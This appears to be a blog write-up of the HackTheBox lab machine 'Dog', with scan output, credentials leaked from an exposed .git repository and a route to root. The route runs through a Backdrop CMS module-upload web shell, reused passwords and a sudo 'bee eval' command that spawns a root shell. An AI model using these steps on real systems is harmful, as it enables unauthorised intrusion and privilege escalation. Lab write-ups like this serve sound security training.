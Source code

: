 ```yaml
---
title: "Dog"
date: 2024-03-17
draft: false
description: HackTheBox's Good Room
Tags:
- HackTheBox
- Linux
- Easy
---
```




## Enumeration

```
nmap -sVC 10.10.11.58             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:37 +0545
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up (0.21s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE    SERVICE            VERSION
22/tcp    open     ssh                OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp    open     http               Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
2119/tcp  filtered gsigatekeeper
2605/tcp  filtered bgpd
2909/tcp  filtered funk-dialout
5214/tcp  filtered unknown
5225/tcp  filtered hp-server
6881/tcp  filtered bittorrent-tracker
31337/tcp filtered Elite
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.50 seconds
```

```
rustscan -a 10.10.11.58             
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.58:22
Open 10.10.11.58:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:38 +0545
Initiating Ping Scan at 11:38
Scanning 10.10.11.58 [4 ports]
Completed Ping Scan at 11:38, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:38
Completed Parallel DNS resolution of 1 host. at 11:38, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:38
Scanning 10.10.11.58 (10.10.11.58) [2 ports]
Discovered open port 22/tcp on 10.10.11.58
Discovered open port 80/tcp on 10.10.11.58
Completed SYN Stealth Scan at 11:38, 0.34s elapsed (2 total ports)
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up, received echo-reply ttl 63 (0.23s latency).
Scanned at 2025-03-09 11:38:21 +0545 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

![](Pasted%20image%2020250309114042.png)

Contents of robots.txt.
```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html
#
# For syntax checking, see:
# http://www.robotstxt.org/checker.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /core/
Disallow: /profiles/
# Files
Disallow: /README.md
Disallow: /web.config
# Paths (clean URLs)
Disallow: /admin
Disallow: /comment/reply
Disallow: /filter/tips
Disallow: /node/add
Disallow: /search
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
# Paths (no clean URLs)
Disallow: /?q=admin
Disallow: /?q=comment/reply
Disallow: /?q=filter/tips
Disallow: /?q=node/add
Disallow: /?q=search
Disallow: /?q=user/password
Disallow: /?q=user/register
Disallow: /?q=user/login
Disallow: /?q=user/logout
```

And lots of things in directory busting.
![](Pasted%20image%2020250309121509.png)

And the directories and queries from robots.txt in not valid.

```
admin/config/development/configuration/sync
```

![](Pasted%20image%2020250309122744.png)

`BackDropJ2024DS2024`

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';

```


And can find email.
`0-8204779c764abd4c9d8d95038b6d22b6a7515afa/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json`
![](Pasted%20image%2020250309140603.png)

And we logged in.
![](Pasted%20image%2020250309140657.png)

```
tiffany@dog.htb
BackDropJ2024DS2024
```

## Exploit

![](Pasted%20image%2020250309144948.png)
![](Pasted%20image%2020250309145207.png)

Now,
![](Pasted%20image%2020250309153823.png)

And we need to create a shell.tar.gz.

[exploit](https://www.exploit-db.com/exploits/52021)

It will create a shell directory.
We need to do.
`tar -czvf shell.tar.gz shell/`

And upload this tar.gz file in the thing uploading module.
![](Pasted%20image%2020250309154248.png)

And now after doing that we need to load that.
![](Pasted%20image%2020250309154328.png)

and visit what exploit saying or `/modules/shell/shell.php`

And we will see this.
![](Pasted%20image%2020250309154145.png)

And now we can use python3 reverse shell to get stable shell.
![](Pasted%20image%2020250309154500.png)

## Privelege Escalation

Lets enumerate.
Now we can login to mysql server.
But it was a rabbithole.
![](Pasted%20image%2020250309154948.png)
![](Pasted%20image%2020250309155414.png)

`hashcat -m 7900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force`

Nothing here and we cant even crack the password of user.

And amazingly, we can use same password from before for user `johncusack`.
![](Pasted%20image%2020250309161007.png)

And now doing `sudo -l` revealed this.
![](Pasted%20image%2020250309162543.png)

And doing this came this.
![](Pasted%20image%2020250309162621.png)

So its a command to manage that backdrop cms.
But we have root priveleges.
And we can see it can use eval function of php.
![](Pasted%20image%2020250309162757.png)

So Now we can try to do privelege escalate using eval.

Lets try.
![](Pasted%20image%2020250309163256.png)

Hmm and after doing some talk with chatGPT,if we specify the `root directory of the Backdrop installation to use`,we could do so.
`sudo -u root /usr/local/bin/bee --root=/var/www/html eval 'system(whoami)'
`
![](Pasted%20image%2020250309163814.png)
I guess it worked.

Lets try.
We have to also write commands inside quotations. 
![](Pasted%20image%2020250309163909.png)

```
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash");'

```

and we got the root.
![](Pasted%20image%2020250309164104.png)

## Done

And done.
![](Pasted%20image%2020250309164152.png)

Again lots of things learned.
I hope you enjoyed.
